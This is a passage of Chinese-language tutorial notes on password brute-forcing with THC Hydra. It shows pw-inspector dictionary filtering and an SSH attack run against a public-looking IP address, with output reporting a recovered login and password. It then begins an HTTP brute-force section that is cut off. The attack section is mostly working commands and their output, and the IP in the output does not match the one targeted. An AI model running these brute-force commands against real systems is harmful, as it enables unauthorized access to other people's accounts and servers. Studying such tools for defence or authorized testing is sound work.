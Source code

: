   4. `-p`

     printable characters (which are not -l/-n/-p, e.g. $,!,/,(,*, etc.)

  5. `-s`

     pecial characters - all others not withint the sets above
  
  如果pw-inspector返回值为0，表示没有匹配的passwd
  
  ```
  cat dictionary.txt | pw-inspector -m 6 -c 2 -n > passlist.txt
  ```

## ssh爆破

```
#查看ssh service是否需要额外的参数
root in /opt λ hydra -U ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-23 20:33:19

Help for module ssh:
============================================================================
The Module ssh does not need or support optional parameters

root in /opt λ hydra  -l cpt -P Blasting_dictionary-master/3389爆破字典.txt  ssh://8.147.0.181:40002
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-23 19:15:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 258 login tries (l:1/p:258), ~17 tries per task
[DATA] attacking ssh://8.135.0.171:22/
[22][ssh] host: 8.147.0.181   login: cpt   password: 1@3.c@m
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-23 19:16:03

```

## http爆破

如果需要真正使用`:`使用`\:`，如果访问的url是默认页面，需要指定默认页面

### get

```
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```
